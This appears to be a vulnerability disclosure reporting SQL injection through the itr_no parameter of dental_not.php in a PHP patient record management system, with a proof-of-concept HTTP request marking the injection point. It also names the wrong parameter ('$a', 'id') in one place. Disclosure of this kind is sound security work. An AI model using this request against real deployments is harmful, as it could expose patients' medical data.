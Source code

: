 # patient-record-management-system-in-php has sql injection in dental_not.php

## supplier 
https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette
## Vulnerability parameter
/dental_not.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in dental_not.php. The parameters that can be controlled are as follows: $a. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $_GET[itr\_no] parameter is obtained in dental_not.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/61bcf18c-05a0-4fb4-ac30-40c7f31f9184)



## POC

```
GET /dental_not.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
